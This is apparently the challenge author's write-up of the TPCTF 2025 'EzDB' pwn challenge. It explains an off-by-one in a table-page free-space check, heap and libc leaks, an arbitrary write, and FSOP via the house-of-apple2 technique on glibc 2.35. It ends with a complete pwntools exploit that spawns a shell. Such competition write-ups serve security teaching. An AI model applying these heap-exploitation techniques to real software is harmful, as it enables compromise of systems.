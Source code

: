 ```yaml
---
date: 2025-03-09 10:21:56
layout: post
title: TPCTF 2025 EzDB Author's Writeup
subtitle: 
description: >-
    Had given an arbituary write primitive... So be satisfied, not a difficult problem
image: >-
  /assets/img/uploads/rainy_street.jpg
optimized_image: >-
  /assets/img/uploads/rainy_street.jpg
category: ctf
tags:
  - pwn
  - tpctf 2025
  - heap exploitation
author: rosayxy
paginate: true
---
```

Rosayxy is the author of the TPCTF pwn challenge of EzDB, here is the writeup.     

## overview
This challenge is mainly inspired by the DB course of THU CST. Some resources of the course is [here](https://github.com/thu-db)    

This challenge implements a table page to store stuff, with such basic functionalities as creating and removing a page, creating and editing entries in the page and such.     

## vulnerability
At function `TablePage::InsertRecord`, it checks the following condition `TablePage::GetFreeSpaceSize(this) < (unsigned __int64)(Size + 4LL)`, whereas the `TablePage::GetFreeSpaceSize` is defined as below   
```c
__int64 __fastcall TablePage::GetFreeSpaceSize(TablePage *this)
{
  return *((_QWORD *)this + 2) - *((_QWORD *)this + 1) + 1LL;
}
```
Actually, in the source code `*((_QWORD *)this + 2)`, `*((_QWORD *)this + 1)` are marked respectively as the higher and lower pointer of this page. We see its intialization below:    

```c
TablePage *__fastcall TablePage::Init(TablePage *this)
{
  TablePage *result; // rax

  *(_QWORD *)this = malloc(0x400uLL);
  *((_QWORD *)this + 1) = *(_QWORD *)this;
  *((_QWORD *)this + 2) = *(_QWORD *)this + 0x400LL;
  result = this;
  *((_QWORD *)this + 3) = *(_QWORD *)this;
  return result;
}
```
So we get to know the GetFreeSize should be returning `*((_QWORD *)this + 2) - *((_QWORD *)this + 1)`. When we have `TablePage::GetFreeSpaceSize(this) == (unsigned __int64)(Size + 4LL)`(the 4 is the slot size here), we have an overflow into the highest byte of the newest slot, which is defined as below in the source code    
```c
struct Slot{
    unsigned short offset;
    unsigned short size;
};
```
So we can modify the size into a large value of the newest slot. This gives us a heap oob read & write with a big-enough-for-everything offset using the `TablePage::EditRecord` and `TablePage::GetRecord` functions.    

## leak
We can stuff 7 pages into tcache bin first, when we free the 8th page, it goes into the unsorted bin and the fd and bk pointers are libc-related addresses. We can leak the libc base address from it.    
The TablePage object's page_, lower_, upper_ pointers are all heap addresses. We can leak the heap base address here.    

## exploit
### convert to arbituary write
We can convert a heap-arbituary-write primitive to an arbituary-write primitive by editing the upper_ pointer of a TablePage object to an arbituary address plus some offset. Then we can use `TablePage::InsertRecord` function to write the content to the arbituary address.    

### FSOP
Because it is glibc-2.35, we choose to write _IO_list_all to a heap address and construct a fake IO_file object at the address.     
The construct the fake IO_file using the idea of [house of apple2](https://bbs.kanxue.com/thread-273832.htm), then we return from the main function to trigger the FSOP, and guess what? We get the shell!    

## exp
Note: I was having a fascinating Shakespeare elective course and multitasking when writing the exp. At first, I didn't realize that the overflow in the page would overflow into the high byte rather than the low byte of the slot's size, so some parts of the exp might be a bit messy. My apologies :(     

```py
from pwn import*
context(log_level='debug',arch='amd64',os='linux')
p = process("./db")
# p = remote("61.147.171.105",52702)
libc = ELF("./libc.so.6")
def create_table(idx):
    p.recvuntil(">>> ")
    p.sendline("1")
    p.recvuntil("Index: ")
    p.sendline(str(idx))

def remove_table(idx):
    p.recvuntil(">>> ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))

def insert_record(idx,len,content):
    p.recvuntil(">>> ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Length: ")
    p.sendline(str(len))
    p.recvuntil("Varchar: ")
    p.send(content)

def get_record(idx,slot_id):
    p.recvuntil(">>> ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Slot ID: ")
    p.sendline(str(slot_id))

def edit_record(idx,slot_id,len,content):
    p.recvuntil(">>> ")
    p.sendline("5")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Slot ID: ")
    p.sendline(str(slot_id))
    p.recvuntil("Length: ")
    p.sendline(str(len))
    p.recvuntil("Varchar: ")
    p.send(content)

# leak libc first
# 整8个塞 tcache 里面吧
for i in range(9):
    create_table(i)
for i in range(203):
    insert_record(0,1,"A")
#insert vuln record
insert_record(0,6,b"\x02"*6)
for i in range(8):
    remove_table(8-i)

get_record(0,203)
p.recvline()
leaks = p.recv(0x140)
# 0x1d 0x106
heap_leak = u64(leaks[0xf2:0xf2 + 8])
print(hex(heap_leak))
libc_leak = u64(leaks[0x11a:(0x11a + 8)])
print(hex(libc_leak))
heap_base = heap_leak - 0x12320
# 0x7fbd726c7ce0 - 0x7fbd724ad000
libc_base = libc_leak - 0x21ace0
print(hex(heap_base))
print(hex(libc_base))
# 把所有堆块都占住 然后改 page_ 指针
for i in range(8):
    create_table(i+1)
# 占一个堆块写 fake IO_file
fake_io_addr = heap_base + 0x12730 +0x430 - 0xf0 # TODO
system_addr=libc_base+libc.sym["system"]
fake_io_file=b"  sh;".ljust(0x8,b"\x00") 
fake_io_file+=p64(0)*3+p64(1)+p64(2)
fake_io_file=fake_io_file.ljust(0x30,b"\x00")
fake_io_file+=p64(0)
fake_io_file=fake_io_file.ljust(0x68,b"\x00")
fake_io_file+=p64(system_addr)
fake_io_file=fake_io_file.ljust(0x88,b"\x00")
fake_io_file+=p64(libc_base+0x21ca60) # lock
fake_io_file=fake_io_file.ljust(0xa0,b"\x00")
fake_io_file+=p64(fake_io_addr)
fake_io_file=fake_io_file.ljust(0xd8,b"\x00")
fake_io_file+=p64(0x216f40+libc_base) # 使得可以调用 _IO_wfile_overflow
fake_io_file+=p64(fake_io_addr)+p64(0) # 0xf0
# 直接溢出改 page_ 指针
insert_record(1,0xf0,fake_io_file)

payload = b"\x02"*6+b"a"*203 + p64(0)+p64(0x31)+p64(heap_base + 0x12320)*2+p64(libc_base + libc.sym["_IO_list_all"]+0x8)+p64(heap_base + 0x12320)
edit_record(0,203,0x140,payload)
insert_record(8,0x8,p64(fake_io_addr))

# trigger!
p.recvuntil(">>> ")
p.sendline("6")

p.interactive()
```

## conclusion
Thank everyone for participating in the TPCTF game! Spring is coming and hope you have a nice time!    
[Here](https://github.com/Rosayxy/EzDB-SourceCode-TPCTF2025/tree/main) is the source code   